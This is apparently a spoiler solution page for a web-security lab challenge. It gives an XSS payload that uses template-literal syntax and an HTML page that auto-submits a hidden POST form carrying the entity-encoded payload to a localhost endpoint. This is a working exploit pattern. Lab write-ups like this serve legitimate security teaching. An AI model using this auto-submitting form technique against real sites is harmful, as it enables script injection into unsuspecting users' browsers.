 # Challenge 4
Solution and further references for *challenge 4*.

<details>
 <summary>Spoiler: Solution for challenge 4</summary>

**Payload**:
```html
${alert(document.domain)}
```

**Exploit**:
```html
<html>
  <body>
    <form action="http://127.0.0.1/challenge4.php" method="POST" id="attackForm">
      <input type="hidden" name="q" value="&#36;&#123;alert&#40;document&#46;domain&#41;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
 <script>attackForm.submit()</script>
  </body>
</html>
```
</details>